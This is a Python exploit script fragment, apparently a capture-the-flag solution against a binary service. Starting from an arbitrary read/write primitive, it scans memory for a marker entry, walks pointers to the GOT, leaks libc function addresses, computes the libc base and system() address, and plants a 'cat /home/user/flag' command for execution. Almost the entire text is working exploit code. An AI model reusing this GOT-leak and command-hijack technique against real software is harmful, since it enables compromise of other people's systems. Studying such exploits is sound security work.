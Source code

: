 ```python

#all right, we have arbitrary R/W, yolo. Now we need to find the BSS.
#Idea: start scanning memory for "foobar", if we hit it, that means we've found a valid entry ->
#from there we can go back to the parent->parent to get BSS.

print "Scanning for a valid entry object..."

parent_dir_addr = -1
for i in range(0, 1000):
	addr = 0x40000000 + i*0x1000
	b = arb_read(addr, 0x1000)
	if "foobar" in b:
		print "We found the address of a valid entry!!"
		#print b
		start = b.find("foobar")
		parent_dir_start = start - 12
		parent_dir_addr = unpack(b[parent_dir_start:parent_dir_start+8], 64, endian="little")
		print "0x%08x is the parent dir address." % parent_dir_addr
		break
	elif ((i % 50) == 0):
		print "[%d]..." % i

if parent_dir_addr == -1:
	print "Did not find the entry in 1000 tries! Fuck you."
	

#now we just have to walk back twice to read/write the GOT!

def leak_got_addr(got, idx):
	leak = arb_read(got+idx*8, 8)
	leak = unpack(leak[2:10], 64)
	return leak

leak = arb_read(parent_dir_addr, 8)
g_home_folder_addr = unpack(leak[2:10], 64, endian='little')
print "g_home_folder is at 0x%08x" % g_home_folder_addr

memset_location_addr = g_home_folder_addr - (0x8BE0 - 0x5060)
print "memset addr in GOT is 0x%08x" % memset_location_addr

GOT = memset_location_addr - 8*12
print "GOT addr is 0x%08x" % GOT

memset_addr = leak_got_addr(GOT, 12)
abort_addr = leak_got_addr(GOT, 3)
strcpy_addr = leak_got_addr(GOT, 4)
puts_addr = leak_got_addr(GOT, 5)

print "abort: 0x%08x" % abort_addr
print "strcpy: 0x%08x" % strcpy_addr
print "puts: 0x%08x" % puts_addr
print "..."
print "memset: 0x%08x" % memset_addr

libc_base = strcpy_addr - (0xc779d0 - 0xbd2000)
print "libc_base: 0x%08x" % libc_base

#lets setup foobar_1's data now...
#put("foobar_1", "cat flag\x00")
put("foobar_1", "cat /home/user/flag\x00")

if REMOTE == False:
	system_addr = memset_addr - (0x50d6970 - 0x4fa9390)
```